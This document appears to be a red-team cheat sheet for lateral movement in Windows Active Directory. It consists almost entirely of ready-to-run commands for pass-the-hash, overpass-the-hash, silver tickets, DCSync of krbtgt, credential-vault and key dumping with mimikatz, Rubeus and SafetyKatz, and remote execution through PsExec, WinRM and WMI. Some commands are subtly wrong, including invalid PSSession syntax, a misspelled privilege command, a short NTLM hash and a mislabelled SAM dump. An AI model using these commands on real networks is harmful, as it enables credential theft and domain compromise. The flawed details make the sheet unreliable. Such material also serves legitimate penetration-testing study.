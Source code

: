 # Lateral Movement

## Establishing Remote Sessions on Network

Connect to a machine using Powershell Remoting:

```
$sess = New-PSSession -ComputerName test-srv
Enter-PSSession -$sess
```

Connect to a machine using Winrs:

```
winrs -r:test-srv cmd
```

## Pass The Hash

Get a session via mimikatz.exe (of any domain user).

```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:domainadmin /domain:test.com /ntlm:6366243a657a4ea04e406f1abc27f1
```

## Overpass The Hash

Get a session with Domain Privileges (hash of a domain admin is required).

```
C:\AD\test\Rubeus.exe asktgt /user:domainadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Derivative Local Admin

Find derivative local admin access.

```
. C:\AD\test\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Silver Ticket

Execute Silver ticket attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:test.com /ptt /target:test.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:domainadmin
```

Execute Silver ticket attack using BetterSafetyKatz.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /target:test.corp.com /service:RPCSS /rc4:1be12164a06b817e834eb437dc8f581c /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## PsExec

Execute a process remotely using PsExec.

```
PsExec64.exe cmd \\test.tech.com
```

## DCSync

Execute DCSync attack via SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:test\krbtgt" "exit"
```

Execute DCSync attack via mimikatz.exe.

```
privileges::debug
lsadump::dcsync /user:test\krbtgt
```

## Credentials Vault

Dump credentials vault with SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"
```

## Dump SAM Hashes

Dump SAM of local machine via mimikatz.exe

```
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

## WMI

Execute WMI quries.

```
gwmi -class win32_operatingsystem -ComputerName test-dc
```

## Delegation

### UnConstrained Delegation

Identify Computer Objects where Unconstrained Delegation is allowed.

```
Get-NetComputer -Unconstrained
```

### Constrained Delegation

Identify the user and computer account having constrained delegation enabled.

```
Get-NetUser -TrustedToAuth | select cn, samaccountname, msds-allowedtodelegateto
Get-NetComputer -TrustedToAuth
```
